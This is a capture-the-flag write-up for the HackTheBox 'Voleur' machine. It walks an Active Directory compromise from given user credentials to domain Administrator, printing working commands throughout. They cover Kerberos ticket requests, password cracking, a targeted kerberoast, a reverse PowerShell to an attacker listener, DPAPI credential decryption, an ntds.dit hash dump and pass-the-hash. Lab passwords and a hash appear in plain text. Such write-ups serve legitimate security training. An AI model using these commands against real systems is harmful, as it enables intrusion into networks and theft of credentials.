



# Voleur - HackTheBox writeup

To begin the room just like some real life scenario we have the credentials of a user.

ryan.naylor:HollowOct31Nyt

Let's first scan the machine's ports.

```bash
$ nmap 10.10.11.76 --min-rate 3000
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
2222/tcp open  EtherNetIP-1
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

We see interesting ports that let us guess that this machine will be about Active Directory.

```bash
$ nxc smb 10.10.11.76 -u ryan.naylor -p HollowOct31Nyt
```

This doesn't work because this machine only support kerberos authentification.

We also got the machine domain name so we will add it to our /etc/hosts.

```
10.10.11.76    voleur.htb dc.voleur.htb dc 
```

As the machine only accepts Kerberos authentification we will need to get a TGT ticket for our user.

```bash
$ faketime "$(rdate -n dc.voleur.htb -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
$ getTGT.py -dc-ip "dc.voleur.htb" "voleur.htb"/"ryan.naylor":"HollowOct31Nyt"
$ export KRB5CCNAME="$(pwd)/ryan.naylor.ccache"
$ nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt --use-kcache
```

Now it works ! Let's get more informations about the machine using bloodhound

```bash
$ bloodhound.py --zip -c All -d "voleur.htb" -u "ryan.naylor" -p "HollowOct31Nyt" -ns "10.10.11.76" -k -no-pass
```


For now it seems that we don't have any particular privilege on other users / groups on the domain controller.

However when I checked if ryan.naylor can read any shares:

```bash
$ nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt --use-kcache --shares
```

It seems that he has access to the IT share with read privilege. The IT share being unusual it seems that our foothold is here. To read the share directory I will use `smbclient.py`.

```bash
$ smbclient.py dc.voleur.htb -k -no-pass
```
Now we have access to a directory `First-Line Support` which contain the file `Access_Review.xlsx`, let's download it locally.

```bash
$ get Access_Review.xlsx
```

Now we can see what it contains using `libreoffice`:

```bash
$ libreoffice --calc Access_Review.xlsx
```



The file is encrypted with a password, we need to crack it before checking what it contains.

```bash
$ office2john.py Access_Review.xlsx > Access_Review.hash
$ john --wordlist=rockyou.txt Access_Review.hash
```

And with this we now have the file password which is: **football1**. Now let's check the file.



We have interesting informations like credentials of some account:

svc_ldap:M1XyC9pW7qT5Vn
svc_iis:N5pXyW1VqM7CZ8
todd.wolfe:NightT1meP1dg3on14

todd.wolfe is apparently a removed account so let's forget it for now.

However, according to our bloodhound, svc_ldap has a special privilege on another account... which is svc_winrm !

It is important because svc_winrm can authenticate on the machine and get a shell with him as svc_winrm is a member of the REMOTE MANAGEMENT USERS group.



svc_ldap has write privilege on the service principal name of svc_winrm. What does it means ?

It means that we can create a false service principal name for svc_winrm and then use a kerberoast attack to get it's hash !

```bash
$ bloodyAD --host "dc.voleur.htb" -d "voleur.htb" -u "svc_ldap" -p "M1XyC9pW7qT5Vn" -k set object S-1-5-21-3927696377-1337352550-2781715495-1601 serviceprincipalname -v FAKE/voleur.htb
$ nxc ldap "dc.voleur.htb" -d "voleur.htb" -u "svc_ldap" -p "M1XyC9pW7qT5Vn" -k --kerberoasting hashes.txt
$ john --wordlist=rockyou.txt hashes.txt
```
And with this we get the following credentials:

svc_winrm:AFireInsidedeOzarctica980219afi

We can now get a shell as svc_winrm on the DC but we first have to edit the krb5.conf file to use kerberos authentification with evil-winrm.

We will add the following lines:

```
VOLEUR.HTB = {
    kdc = dc.voleur.htb          
}
```

We also need to get a TGT because the DC only allows kerberos authentification.

```bash
$ getTGT.py -dc-ip "dc.voleur.htb" "voleur.htb"/"svc_winrm":"AFireInsidedeOzarctica980219afi"
```

> Again, don't forget to change the KRB5CCNAME environment's variable: export KRB5CCNAME="$(pwd)/svc_winrm.ccache"

```bash
$ evil-winrm -i "dc.voleur.htb" -r VOLEUR.HTB
```

> The user.txt is in C:\Users\svc_winrm\Desktop

To go further we need higher privileges. On the machine there is other users's home directory like jeremy.combs and todd.wolfe.

We don't have informations about jeremy.combs but we have the password of todd.wolfe that we found in the libreoffice file earlier.

However when checking the deleted AD objects:

```powershell
Get-ADOptionalFeature 'Recycle Bin Feature'
```

It appears that todd.wolfe can't be used anymore, we need to restore it.

And the good thing is that we already own a user that is a member of RESTORE_USERS group... and it's svc_ldap !

So to restore todd.wolfe we will create a reverse shell as svc_ldap using the binary `RunasCs.exe` which is an
 improved version of the `runas.exe` Windows builtin authorizing explicit credentials usage and come with other handy features (like reverseshell spawning).

Let's upload it on the remote machine using the evil-winrm shell.

```powershell
> upload /workspace/RunasCs.exe C:\\Users\\svc_winrm\\Desktop\\RunasCs.exe
```

We start the listener on our machine.

```bash
$ nc -lvnp 4444
```

And then we can spawn a reverse powershell using:

```powershell
> ./RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell -r <my-ip>:4444
```

Now we just have to check the object ID and to restore it.

```powershell
> Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
> Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db
```

We can now authenticate as todd.wolfe using the password we found earlier 

> *Reminder*: todd.wolfe:NightT1meP1dg3on14

todd.wolfe has access to the IT share. Using the same method as earlier (with rayan.naylor) we will see what it contains.

It appears that the share for todd.wolfe contain a `/Second-Line Support/Archived Users/todd.wolfe` directory.

It looks like a Windows home directory, and there is an interesting `AppData/Roaming` directory.

Inside it we can find a credential file in `Credential/` and the masterkey to decryt it in `Protect/S-1-5-21-3927696377-1337352550-2781715495-1110`

```
# cd Credentials
# ls
drw-rw-rw-          0  Wed Jan 29 16:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 16:13:09 2025 ..
-rw-rw-rw-        398  Wed Jan 29 14:13:50 2025 772275FAD58525253490A9B0039791D3
# get 772275FAD58525253490A9B0039791D3
# cd ../Protect/S-1-5-21-3927696377-1337352550-2781715495-1110
# ls
drw-rw-rw-          0  Wed Jan 29 16:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 16:13:09 2025 ..
-rw-rw-rw-        740  Wed Jan 29 14:09:25 2025 08949382-134f-4c63-b93c-ce52efc0aa88
-rw-rw-rw-        900  Wed Jan 29 13:53:08 2025 BK-VOLEUR
-rw-rw-rw-         24  Wed Jan 29 13:53:08 2025 Preferred
# get 08949382-134f-4c63-b93c-ce52efc0aa88
```

We download both files and first we will decrypt the masterkey using the dpapi.py tool:

```bash
$ dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
```

Then we can decrypt the hidden credential, still with dpapi.py:

```bash
$ dpapi.py credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83                                    
Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
```

jeremy.combs:qT3V9pLXyN7W4m

jeremy.combs can also read the IT shared directory. He has access to a `Third-Line Support` that contains 2 things:

- Notes.txt: which is a note left by the administrator talking about using linux backup tools by using WSL.
- id_rsa: which is probably the private key that we will use to connect to the ssh server opened on WSL.

It also contains a `Backups/` directory that we can't read for now.

But if we try to connect to the ssh server normaly it won't work:

```bash
ssh jeremy.combs@voleur.htb -i id_rsa
```

That is for 2 reasons.

First if we look closer to the port 2222 that we scanned during our first nmap execution we see that the ssh server is running on it.

> By default the port of the ssh service is 22, we need to change this in our command.

```bash
$ nmap 10.10.11.76 --min-rate 3000 -sV -p 2222

Starting Nmap 7.93 ( https://nmap.org ) at 2025-11-08 08:25 CET
Nmap scan report for voleur.htb (10.10.11.76)
Host is up (1300s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
```

And the second problem is the user that we use to login. We need to use the svc_backup user that we saw earlier in the .xslx file.

> Don't forget to give restricted permission to the private key: `chmod 600 id_rsa`

```bash
$ ssh svc_backup@voleur.htb -i id_rsa -p 2222
```

On WSL we can go root very easily knowing that svc_backup can execute any command as root using sudo.

```bash
$ sudo -l
Matching Defaults entries for svc_backup on DC:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_backup may run the following commands on DC:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
$ sudo su
# whoami
root
```

It is useless though, since we want to escalate to root on the Windows machine.

The useful data for that can be found in `/mnt/c/IT`, we have the same shared directory that we've seen earlier with jeremy.combs.

However now we can read the `Backups/` directory and this is our key to the root on the Windows machine.

In `Backups/` we can find the `ntds.dit` file and the `SECURITY` and `SYSTEM` files that allow us to dump all the user on the DC and their passwords.

```bash
$ scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit" .
...
$ scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM" .
...
$ scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/registry/SECURITY" .
...
$ secretsdump.py -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

With this we get the Administrator NTLM hash that is dumped.

Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::

We can ask a TGT ticket for Administrator using the hash found.

```bash
$ getTGT.py -dc-ip "dc.voleur.htb" "voleur.htb"/"Administrator" -hashes aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2
```

We just have to use evil-winrm with the obtained ticket and we are now log in as Administrator !

> The root.txt is in C:\Users\Administrator\Desktop


